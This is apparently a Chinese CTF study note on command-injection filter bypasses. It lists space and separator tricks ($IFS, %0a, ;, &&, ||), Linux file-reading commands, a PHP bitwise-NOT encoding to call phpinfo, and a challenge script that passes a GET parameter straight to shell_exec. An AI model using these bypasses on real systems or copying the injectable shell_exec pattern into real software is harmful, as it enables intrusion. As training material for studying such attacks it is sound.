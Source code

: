 ```shell
常见的绕过符号有：
$IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、
#$IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，
加一个{}就固定了变量名，$IFS$9后面之所以加个$是为了起到截断的作用
```

#### 命令分隔

```bash
%0a  --换行符，需要php环境
%0d  --回车符，需要php环境
;  --在 shell 中，是”连续指令”
&  --不管第一条命令成功与否，都会执行第二条命令
&&  --第一条命令成功，第二条才会执行
|  --第一条命令的结果，作为第二条命令的输入
||  --第一条命令失败，第二条才会执行
```

#### Linux中查看文件内容的命令

```
#linux中查看文件内容的命令
cat、tac、more、less、head、tail、nl、sort、uniq

cat     由第一行开始显示内容，并将所有内容输出
tac     从最后一行倒序显示内容，并将所有内容输出
more    根据窗口大小，一页一页的显示文件内容
less    和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head    只显示头几行
tail    只显示最后几行
nl     类似于cat -n，显示时输出行号
sort   默认是用每行开头的第一个字符来进行排序的
uniq   可检查文本文件中重复出现的行列
```

#### **取反**

```php
<?php
$a = "phpinfo";
echo urlencode(~$a);
?>
#%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)();

```



#### 题目解析

##### 1.字符串限制长度为15getshell

```php
 <?php
highlight_file(__FILE__);
if(strlen($_GET['code']<15)){
    echo strlen($_GET['code']);
    echo '<br>';
    echo shell_exec($_GET['code']);

}
else{
    exit('too long,try another way');
}
```
